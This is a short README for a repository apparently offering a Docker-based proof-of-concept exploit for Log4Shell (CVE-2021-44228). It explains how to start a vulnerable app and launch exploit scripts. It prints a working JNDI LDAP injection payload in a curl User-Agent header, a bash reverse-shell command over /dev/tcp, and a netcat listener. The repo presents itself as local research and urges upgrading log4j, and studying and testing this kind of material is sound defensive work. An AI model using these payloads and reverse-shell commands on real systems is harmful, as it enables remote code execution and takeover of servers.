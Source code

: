 # fun with log4shell and docker

This repo to proof exploitation in latest java version exist too !
Please do not rely on your java version to be safe and upgrade log4j package !

- vulnerable app from : https://github.com/christophetd/log4shell-vulnerable-app.git
- vulnerability explained : https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

- This is a POC of the exploitation of the CVE-2021-44228. 
- Use it for local research and comprehension only and with the autorisation of the target.

## play 
- launch the vulnerable app : `./start_vuln_server.sh`
- launch exploit :  `./exploit.sh <rogueserver_ip> <rogueserver_port> <cmd>`
  - example : ./exploit.sh 172.28.0.1 4445 'bash -i >& /dev/tcp/172.28.0.1/4444 0>&1'
- trig the exploit and start listener : 
  - example : `( sleep 2 && curl 127.0.0.1:8081 -H 'User-Agent: ${jndi:ldap://172.28.0.1:4445/o=tomcat}' ) & nc -nlvp 4444 `'

![](./poc.png)
